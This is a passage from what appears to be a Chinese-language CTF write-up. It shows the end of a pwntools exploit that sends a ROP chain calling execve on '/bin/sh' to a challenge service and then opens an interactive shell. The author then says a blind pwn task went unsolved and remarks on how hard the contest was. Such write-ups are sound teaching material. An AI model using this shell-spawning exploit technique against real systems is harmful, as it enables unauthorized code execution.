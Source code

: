 ```python
payload += p64(pop_rdi_ret) + p64(0x589000) + p64(pop_rsi_ret) + p64(0) + p64(pop_rdx_ret) + p64(0) + p64(pop_rax_ret) + p64(0x3b) + p64(syscall_ret)
sh.sendlineafter(b'nightingale#', b'echo ' + b'A'*0x10 + b' ' + b'+'*0x200 + b" " + b'b'.ljust(0x13, b'+') + payload)
sh.send(b'/bin/sh\x00')
sh.interactive()
```



## pwn6

Blind PWN，没远程没思路。



## 碎碎念

国赛初赛的 pwn 大概是 ez, medium, hard，分的很明显，说实话感觉决赛 pwn 可能有点复杂，还好这届不是我打（笑）

不过国赛的 pwn，这次和 pwn 相关的部分都不难，反而是其它的部分难，有点搞了。